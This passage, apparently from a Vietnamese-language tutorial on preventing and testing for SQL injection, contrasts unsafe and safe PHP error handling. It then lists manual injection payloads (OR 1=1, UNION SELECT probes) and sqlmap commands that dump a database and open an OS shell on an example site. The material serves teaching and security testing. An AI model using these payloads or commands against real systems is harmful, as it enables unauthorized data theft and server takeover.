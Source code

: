 ### **Error Handling**
*"Đừng tự tố mình"*

**Sai:**
```php
if (!$result) {
    die('Error: ' . mysql_error()); // Lộ database structure
}
```

**Đúng:**
```php
if (!$result) {
    error_log('Database error: ' . mysql_error());
    die('An error occurred. Please try again.');
}
```

## Testing For SQL Injection: "Kiểm Tra Hàng Rào"

### Manual Testing Techniques:

**1. Single Quote Test:**
```
' hoặc "
```

**2. Numeric Test:**
```
1' OR '1'='1
1 OR 1=1
```

**3. Boolean Logic:**
```
' OR 1=1--
' OR 'a'='a
```

**4. Union Test:**
```
' UNION SELECT null--
' UNION SELECT null,null--
' UNION SELECT null,null,null--
```

### Automated Tools:

**SQLmap - "Rolls Royce của SQL injection":**
```bash
# Basic scan
sqlmap -u "http://testsite.com/page?id=1"

# Dump database
sqlmap -u "http://testsite.com/page?id=1" --dump

# Get OS shell
sqlmap -u "http://testsite.com/page?id=1" --os-shell
```
